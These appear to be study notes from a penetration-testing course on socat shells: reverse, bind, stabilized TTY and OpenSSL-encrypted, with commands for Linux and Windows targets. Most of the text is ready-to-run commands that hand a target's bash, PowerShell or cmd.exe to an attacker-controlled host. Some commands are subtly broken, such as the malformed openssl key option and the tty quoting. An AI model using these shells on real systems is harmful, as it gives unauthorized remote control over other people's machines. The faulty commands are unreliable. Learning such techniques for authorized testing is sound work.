 ### Reverse Shells
Here's the syntax for a basic reverse shell listener in socat:
`socat TCP-L:<port> -`

This is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows.
On Windows we would use this command to connect back:
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.  
This is the equivalent command for a Linux Target:
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

### Bind Shells
On a Linux target we would use the following command:
`socat TCP-L:<PORT> EXEC:"bash -li"`

On a Windows target we would use this command for our listener:
`socat TCP-L:<PORT> EXEC:powershell.exe,pipes

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener:
`socat TCP:<TARGET-IP>:<TARGET-PORT> -

### Fully stable Linux tty reverse shell
`socat TCP-L:<port> FILE:'tty',raw,echo=0`

This is approximately equivalent to using the Ctrl+Z, `stty raw -echo; fg` trick.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.

`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

- **pty**, allocates a pseudoterminal on the target
- **stderr**, makes sure that any error messages get shown in the shell.
- **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- **setsid**, creates the process in a new session
- **sane**, stabilizes the terminal, attempting to "normalize" it.
If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.

## Encrypted Shells
We can create a encrypted shell with socat -- both bind and reverse.
We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:
`openssl req --newkey rsa>2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

We then need to merge the two created files into a single `.pem` file:
`cat shell.key shell.crt > shell.pem`  

Now, when we set up our reverse shell listener, we use:
`socat OPENSSL-LISTEN: <PORT>,cert=shell.pem,verify=0 -`

`verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognized authority.
To connect back, we would use:
`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`  

The same technique would apply for a bind shell:
Target:
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`  

Attacker:  
`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`